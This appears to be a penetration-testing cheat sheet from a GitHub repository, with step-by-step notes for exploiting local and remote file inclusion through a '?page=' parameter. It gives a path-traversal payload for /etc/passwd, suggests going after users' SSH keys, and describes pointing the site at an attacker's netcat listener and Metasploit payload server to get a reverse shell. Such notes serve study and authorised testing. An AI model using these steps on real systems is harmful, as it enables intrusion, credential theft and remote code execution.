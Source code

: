 # Initial inspection

1. Does the URL have a `?page=<whatever>` at the end?
   
   a. Yes then continue

   b. No then stop

# Attempt LFI 
 
1. cat a file every user should have access to?
   
   a. Something like this `<url>/?page=../../../../../../../../../../../etc/passwd`

   b. If this worked then LFI is good

   c. If this didnt work, attempt url encoding it

   d. If this didnt work, move on to RFI

3. Get users that have home directories

   a. Good starting point is look for `.ssh/id.rsa` file in attempt to get ssh access

# Attempt RFI 

1. set up enviroment

   a. Create nc listener on kali

   b. use website to call back to nc listener `<url>/?page=http://<kali ip>:<port>/`

2. examine nc output

         i. if the request looks like `GET / HTTP/1.0` then the webpage is not looking for any file type inparticulat

         ii. if the tequest looks like `GET /<file name> HTTP/1.0` then it is looking for a file with that file name

   a. for request like `GET / HTTP/1.0`:

         i. create payload with msfconsol and start a webserver in that location

         ii. creat a listener on the kali machine listening for the call back
   
         iii. call the file through the url `<url>/?page=http://<kali webserver>/<file>`

         iv. wait for the call back

   b. for request like `GET /<file name> HTTP/1.0`:

         i. create payload with msfconsol and with the name and file type of the one that nc returned

         ii. start a webserver in that location of shell

         iii. creat a listener on the kali machine listening for the call back

         iv. call the file through the url `<url>/?page=http://<kali webserver>/<file>`

         v. wait for the call back

      

